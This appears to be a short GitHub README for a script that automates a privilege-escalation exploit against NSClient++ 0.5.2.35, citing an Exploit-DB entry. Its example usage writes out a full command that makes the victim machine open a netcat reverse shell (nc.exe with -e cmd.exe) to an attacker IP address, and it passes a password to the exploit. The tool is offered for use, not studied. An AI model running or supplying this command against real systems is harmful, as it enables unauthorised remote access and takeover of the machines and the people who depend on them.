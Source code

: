 # NSClient-0.5.2.35---Privilege-Escalation
Automated way of exploiting vulnerable NSClient++ 0.5.2.35 for privilege escalation.

Based on Steps described here: https://www.exploit-db.com/exploits/46802
 
 
Example Usage (opening reverse shell using netcat on the victim machine)

./exploit.py "C:\\Temp\\nc.exe 192.168.0.10 443 -e cmd.exe" https://192.168.0.100:443 supersecurepassword
 
